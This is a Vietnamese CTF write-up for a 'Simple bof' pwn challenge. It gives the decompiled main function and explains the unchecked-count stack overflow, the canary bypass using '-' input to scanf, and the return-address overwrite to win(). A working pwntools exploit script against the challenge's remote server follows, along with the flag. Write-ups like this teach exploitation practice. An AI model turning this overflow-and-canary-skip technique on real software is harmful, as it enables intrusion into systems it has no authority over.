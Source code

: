 # Simple bof (pwn)

Check binary

<figure><img src="../../.gitbook/assets/image (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

Decompile bằng IDA

{% code lineNumbers="true" %}
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v5; // [rsp+8h] [rbp-98h] BYREF
  int i; // [rsp+Ch] [rbp-94h]
  _QWORD v7[16]; // [rsp+10h] [rbp-90h] BYREF
  __int64 v8; // [rsp+90h] [rbp-10h]
  unsigned __int64 v9; // [rsp+98h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  v8 = 1LL;
  printf("First useful number: 0x%x\n", &locret_40101A);
  printf("Second useful number %p\n", win);
  puts("How many magic numbers do you wanna tell me?");
  __isoc99_scanf("%d", &v5);
  puts("Ok.");
  for ( i = 0; i < v5; ++i )
  {
    printf("%d. ", (unsigned int)(i + 1));
    __isoc99_scanf("%lu", &v7[i]);
  }
  if ( v8 != 0xDEADBEEFDEADBEEFLL )
  {
    puts("Thanks a lot.");
    exit(0);
  }
  puts("Don't forget the canary.");
  return __readfsqword(0x28u) ^ v9;
}
```
{% endcode %}

Bài này không kiểm tra size ở line 15, nếu ta nhập v5 >16 -> ghi đè ra ngoài biến array v7 -> overflow

Qua quá trình debug mình thấy:

\+ biến v8 ở index 16

\+ stack canary ở index 17

\+ saved rip ở index 19 -> mình sẽ ghi đè thành địa chỉ của `ret` gadget ( leak ở line 12) -> rồi ghi đè địa chỉ hàm win ở index 20 ( bài này `no-pie` nên leak win không cần thiết lắm :))) ).

\+ Nhập `-` hay `+` thì hàm scanf sẽ không thay đổi giá trị của biến =)).

Script giải

```python
from pwn import *
from time import sleep
e=ELF("./simple_bof")
#p=e.process()
p=remote("45.122.249.68",10018)
#context.log_level='debug'
#gdb.attach(p,gdbscript="\nb *main+307")
p.recvuntil(b"First useful number: ")
sleep(1)
leak=p.recvuntil(b"\n").rstrip().decode()
sleep(1)
leak=int(leak,16)
log.info(hex(leak))
p.sendline(b"21")
sleep(1)
#pause()
for i in range(21):
    if i==16:
        p.sendline(str(0xDEADBEEFDEADBEEF).encode())
    #elif i==17:
    #    p.sendline('-'.encode())
    elif i==19:
        p.sendline(str(leak).encode())
    elif i==20:
        p.sendline(str(e.sym["win"]).encode())
    else:
        p.sendline('-'.encode())
    sleep(1)
p.interactive()

```

<figure><img src="../../.gitbook/assets/image (3) (2).png" alt=""><figcaption></figcaption></figure>

Flag: `W1{sUp3r_e4sY_b0f_74f2f624d3c92c1d739b6b0b238c0321}`





